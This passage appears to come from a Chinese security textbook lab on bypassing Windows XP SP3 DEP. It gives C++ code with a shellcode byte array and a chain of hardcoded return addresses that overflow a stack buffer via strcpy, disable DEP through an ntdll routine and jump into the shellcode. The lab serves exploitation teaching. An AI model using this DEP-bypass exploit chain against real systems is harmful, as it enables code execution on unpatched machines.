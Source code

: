 由于只有``` CMP AL ，1``` 成立的情况下程序才能继续执行，所以我们需要一个指令将 AL 修 改为 1。将 AL 修改为 1 后我们让程序转到 0x7C93CD24 执行，在执行 0x7C93CD6F 处的 RETN 4 时 DEP 已经关闭，此时如果我们可以在让程序在 RETN 到一个我们精心构造的指令地址上， 就有可能转入 shellcode 中执行了。我们通过以下代码来分析此流程的具体过程。 

```c++
#include<stdlib.h> 
#include<string.h> 
#include<stdio.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90" 
	"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D"//修正 EBP 
    "\x19\x4A\x97\x7C"//增大 ESP 
    "\xB4\xC1\xC5\x7D"//jmp esp 
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 
    "\xE9\x33\xFF\xFF"//回跳指令 "\xFF\x90\x90\x90" 
    ; 

void test() {    
    char tt[176];    
    strcpy(tt,shellcode); 
} 

int main() 
{    
    HINSTANCE hInst = LoadLibrary(_T("shell32.dll"));    
    char temp[200];    
    test();    
    return 0; 
} 
```

对实验思路和代码简要解释如下：
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。 
- （3）将函数的返回地址覆盖为类似```MOV AL,1  retn```的指令，在将AL置1后转入0x7C93CD24 关闭 DEP。 
- （4）DEP 关闭后 shellcode 就可以正常执行了。 

实验环境如表 12-3-1 所示:
- 操作系统 Window XP SP3  DEP 状态 Optout  
- 编译器 VC++ 6.0  ,即无GS。
- 编译选项 禁用优化选项  
- build 版本 release 版本 
